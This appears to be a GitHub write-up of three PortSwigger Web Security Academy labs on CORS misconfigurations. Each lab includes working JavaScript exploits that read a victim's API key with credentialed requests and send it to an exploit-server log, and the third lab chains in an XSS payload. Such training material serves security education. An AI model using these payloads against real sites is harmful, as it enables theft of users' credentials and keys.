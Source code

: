 **Lab #1: CORS vulnerability with basic origin reflection**

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use the browser to log in and access your account page.
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header:

Origin: https://example.com
Observe that the origin is reflected in the Access-Control-Allow-Origin header.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:

<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click Deliver exploit to victim.
Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1b3764fa-a537-41dd-80c2-834650d431da)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/43df1957-304e-486b-bba7-ef4516270ccc)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/e496e357-52f7-4fc0-ad74-f97c4afb5bd9)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/5e25eaca-f1d8-4213-9d57-6e145bc808e6)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/210dff91-13cc-4514-829b-485f4881d65a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4e8df9e4-31ef-45a1-979b-d51813dc7b67)

**Lab #2: CORS vulnerability with trusted null origin** 

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use Burp's browser to log in to your account. Click "My account".
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header Origin: null.
Observe that the "null" origin is reflected in the Access-Control-Allow-Origin header.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with the URL for your unique lab URL and YOUR-EXPLOIT-SERVER-ID with the exploit server ID:

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
Notice the use of an iframe sandbox as this generates a null origin request.

Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click "Deliver exploit to victim".
Click "Access log", retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d6241fd9-c4e8-4d1b-b8a5-28b73702a7a2)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/95d2de0f-a086-4595-8f08-8ead4842c883)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/096c7bf9-07b0-4e3e-95e9-05a2799b7f9d)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b691fbde-0899-4b0d-b176-a4f5cd1acab3)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/f4e50ab0-ba78-4a9a-b8df-30a4de4001f1)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d89a3c07-d749-4392-a8d7-55695b3e5096)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8ca02f8e-4903-45ee-81ec-da7c9e422018)

**Lab #3: CORS vulnerability with trusted insecure protocols**

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use Burp's browser to log in and access your account page.
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.lab-id where lab-id is the lab domain name.
Observe that the origin is reflected in the Access-Control-Allow-Origin header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
Open a product page, click Check stock and observe that it is loaded using a HTTP URL on a subdomain.
Observe that the productID parameter is vulnerable to XSS.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL and YOUR-EXPLOIT-SERVER-ID with your exploit server ID:

<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click Deliver exploit to victim.
Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/43927350-f0f3-417f-926b-18eb2cd38a96)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/2e8b7bd1-7522-433b-9bad-1b25c0d83189)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/0a64eb3a-a3f9-4895-8669-0aa353bafd74)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/75581357-e1bf-4957-8eeb-68defe7f7610)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/992e6329-114b-4585-85ff-45e58a37b13c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d5a39682-c044-4e18-86c0-fc129b40531e)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/7c415450-395c-4b0e-9dda-657c688330f7)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/3c530767-fdeb-43fd-a2a5-b208da35fb99)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/eccb204d-d50e-448d-869c-63919b9692a8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/9001a664-2bc2-45e8-8c85-113224275063)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/69dec431-ac66-4c95-aa5d-96e016fb50b5)

**
